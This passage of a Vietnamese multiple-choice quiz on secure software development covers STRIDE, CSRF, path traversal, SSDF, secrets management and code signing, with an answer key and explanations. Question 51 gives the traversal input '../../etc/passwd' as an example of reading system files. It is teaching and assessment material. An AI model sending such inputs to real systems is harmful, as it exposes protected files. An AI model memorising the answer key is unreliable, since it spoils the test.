- C. Chúng là cùng một kỹ thuật với tên khác nhau
- D. Output encoding chỉ cần thiết khi dùng database

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Input validation**: gate check — từ chối input không match expected format/range. **Output encoding**: transform — khi render data (kể cả đã pass validation) ra HTML/JS/SQL context, encode ký tự đặc biệt để prevent injection. Cả hai cần thiết và bổ trợ nhau.

---

**Câu 46.** Trong STRIDE, "Elevation of Privilege" attack nào sau đây là ví dụ điển hình?

- A. Gửi nhiều request để làm server quá tải
- B. Modify cookie hoặc JWT token để đổi role từ "user" thành "admin"
- C. Chặn traffic giữa client và server
- D. Inject script vào trang web

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Elevation of Privilege (EoP)** = attacker leo thang từ quyền thấp lên cao. Ví dụ: modify JWT payload (nếu không verify signature), IDOR (truy cập resource của user khác), privilege escalation qua vulnerable sudo rule. Đáp án A là DoS, C là MitM/Spoofing, D là XSS.

---

**Câu 47.** "Evil brainstorming" trong threat modeling có nghĩa là gì?

- A. Brainstorm các tính năng xấu cần loại bỏ khỏi sản phẩm
- B. Team nhìn hệ thống từ góc độ kẻ tấn công để tìm ra các attack vector tiềm ẩn
- C. Mời ethical hacker từ bên ngoài vào brainstorm
- D. Tạo ra các user story cho evil users

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Evil brainstorming = **adversarial thinking** — đặt câu hỏi "Nếu tôi là attacker, tôi sẽ tấn công hệ thống này như thế nào?", "Điểm yếu nào có thể bị khai thác?". Đây là mindset cần thiết khi threat modeling, giúp tìm ra threats mà design-centric thinking bỏ sót.

---

**Câu 48.** CWE-352 (CSRF) được phòng tránh chủ yếu bằng cơ chế nào?

- A. Input validation
- B. CSRF token + SameSite cookie attribute
- C. Parameterized queries
- D. Output encoding

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    CSRF phòng tránh bằng: (1) **CSRF Token** — unpredictable, session-bound, server verify; (2) **SameSite=Strict/Lax** cookie — browser không gửi cookie khi request cross-site; (3) **Custom request headers** (CORS check); (4) **Re-authentication** cho critical actions. Không phải input validation hay output encoding.

---

**Câu 49.** Trong DevOps pipeline, giai đoạn nào phù hợp để chạy Penetration Testing?

- A. Code commit
- B. Pre-production / Staging environment, trước khi deploy production
- C. Production environment sau khi deploy
- D. Planning phase

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Pen testing phù hợp nhất ở **staging/pre-production** — environment giống production nhất, có thể test aggressive mà không ảnh hưởng real users/data. Trong CI (sau commit) dùng SAST; trong production dùng monitoring/RASP/WAF, không chạy active pen testing.

---

**Câu 50.** Khi một developer phát hiện vulnerability trong third-party library đang dùng, theo SSDF quy trình nên là gì?

- A. Xóa ngay library đó và tự implement lại
- B. Monitor vulnerability databases → assess impact → patch/update hoặc workaround → test → deploy với automation
- C. Chờ vendor tự fix rồi update
- D. Ẩn thông tin vulnerability để tránh bị exploit trước khi có patch

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Theo SSDF RV group: (1) Monitor vuln databases (NVD, vendor advisories); (2) Assess impact với SBOM; (3) Có playbook sẵn; (4) Deliver remediation **với automation** (auto-update trong CI, Dependabot...); (5) Record root cause. Không tự implement (tốn công, dễ sai). Không chờ thụ động.

---

**Câu 51.** Path Traversal (CWE-22) tấn công như thế nào và phòng tránh ra sao?

- A. Inject SQL qua URL path; phòng tránh bằng parameterized queries
- B. Dùng `../` trong input để truy cập file ngoài phạm vi cho phép; phòng tránh bằng canonicalize path và whitelist
- C. Traverse toàn bộ DOM tree để tìm sensitive data; phòng tránh bằng CSP
- D. Enumerate users qua timing attack; phòng tránh bằng constant-time comparison

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Path Traversal**: input `../../etc/passwd` → app join với base path → truy cập file ngoài web root. **Phòng tránh**: (1) Validate input, không cho phép `..`; (2) **Canonicalize** path và verify nằm trong allowed directory; (3) Whitelist filename pattern; (4) Chroot/jail process; (5) OS-level permissions.

---

**Câu 52.** Tại sao Secret Management tool (Vault, AWS Secrets Manager) tốt hơn environment variables thông thường?

- A. Environment variables chậm hơn khi đọc
- B. Secret Manager cung cấp: audit log, rotation tự động, fine-grained access control, encryption at rest, short-lived tokens
- C. Environment variables không support Unicode
- D. Secret Manager miễn phí hơn

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Env vars: đơn giản nhưng: không có audit trail, không rotate tự động, có thể bị expose qua `/proc/pid/environ`, không có access control chi tiết. **Secret Manager** thêm: centralized management, automatic rotation, detailed audit logs, dynamic secrets (short TTL), encryption, role-based access.

---

**Câu 53.** Trong user story của Secure Design, tại sao cần ghi cả "flaw có thể xảy ra"?

- A. Để có thêm documentation
- B. Để team awareness về risk ngay từ requirements phase, tích hợp security thinking vào design, tránh design flaws sau này tốn kém để sửa
- C. Để compliance với ISO 27001
- D. Vì OWASP yêu cầu trong security checklist

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Ghi flaws vào user story = **Shifting Left** cho security awareness. Developer và designer biết trước các risk → có thể design countermeasures ngay từ đầu. Ví dụ: user story "Upload avatar" + flaw "Malicious file upload" → ngay từ design đã nghĩ đến file type validation, size limit, sandbox execution.

---

**Câu 54.** Tại sao OWASP Top 10 2021 đưa "Broken Access Control" lên vị trí #1 từ #5?

- A. Các loại tấn công khác đã được giải quyết hoàn toàn
- B. Dữ liệu CVE và penetration test reports cho thấy tần suất và impact của access control failures tăng đáng kể
- C. OWASP thay đổi methodology đánh giá
- D. Broken Access Control mới được phát hiện gần đây

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Broken Access Control bao gồm: IDOR (Insecure Direct Object Reference), CORS misconfiguration, privilege escalation, path traversal... Đây là issues phổ biến và nghiêm trọng trong mọi loại ứng dụng, tần suất cao trong real-world pen tests. OWASP ranking dựa trên prevalence, detectability, và impact từ dữ liệu thực tế.

---

**Câu 55.** "Code signing" trong SSDF PS group bảo vệ gì?

- A. Mã hóa source code để bảo vệ intellectual property
- B. Đảm bảo integrity của executable — verify rằng binary không bị tamper sau khi build
- C. Ký code review approval của developers
- D. Encrypt credentials trong code

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Code signing** = developer ký digital signature lên executable/package bằng private key. User/OS verify bằng public key khi install/run. Đảm bảo binary là authentic (từ publisher đúng) và intact (không bị modify). Ngăn supply chain attacks như thay thế binary trong distribution channel.
